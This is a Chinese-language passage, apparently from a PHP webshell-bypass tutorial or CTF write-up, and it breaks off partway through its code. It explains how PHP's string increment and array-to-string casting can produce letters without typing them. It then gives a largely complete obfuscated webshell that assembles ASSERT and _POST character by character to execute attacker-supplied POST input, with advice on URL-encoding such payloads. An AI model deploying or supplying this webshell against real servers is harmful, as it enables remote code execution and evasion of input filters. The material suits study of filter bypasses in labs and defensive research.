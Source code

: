 因为有些payload中含有不可见字符，所以需要用url编码表示，但如果觉得自己的payload没有问题执行不出来的话就编码一下再试，有时也不需要进行编码。

#### 方法三：递增

```
在处理字符变量的算数运算时，PHP 沿袭了 Perl 的习惯，而非 C 的。例如，在 Perl 中 $a = 'Z'; $a++; 将把 $a 变成'AA'，而在 C 中，a = 'Z'; a++; 将把 a 变成 '['（'Z' 的 ASCII 值是 90，'[' 的 ASCII 值是 91）。注意字符变量只能递增，不能递减，并且只支持纯字母（a-z 和 A-Z）。递增／递减其他字符变量则无效，原字符串没有变化。 
```


很明显了，如果能够得到"A"，那么我们就能通过自增自减，得到所有的字母。

```
"A"++ ==> "B"
"B"++ ==> "C"
```

那么，如何拿到一个值为字符串'a'的变量呢？

巧了，数组（Array）的第一个字母就是大写A，而且第4个字母是小写a。也就是说，我们可以同时拿到小写和大写A，等于我们就可以拿到a-z和A-Z的所有字母。

在PHP中，如果强制连接数组和字符串的话，数组将被转换成字符串，其值为Array：(php5.2不行，5.4可以。。。)

```
<?php
$_=[];
echo $_;   //输出了 Array
```

再取这个字符串的第一个字母，就可以获得'A'了。

利用这个技巧，编写如下webshell（因为PHP函数是大小写不敏感的，所以我们最终执行的是ASSERT($_POST[_])，无需获取小写a）：

```
<?php
$_=[];
$_=@"$_"; // $_='Array';
$_=$_['!'=='@']; // $_=$_[0];
$___=$_; // A
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__; // S
$___.=$__; // S
$__=$_;
$__++;$__++;$__++;$__++; // E 
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // R
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$___.=$__;

$____='_';
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // P
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // O
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
$____.=$__;
$__=$_;
```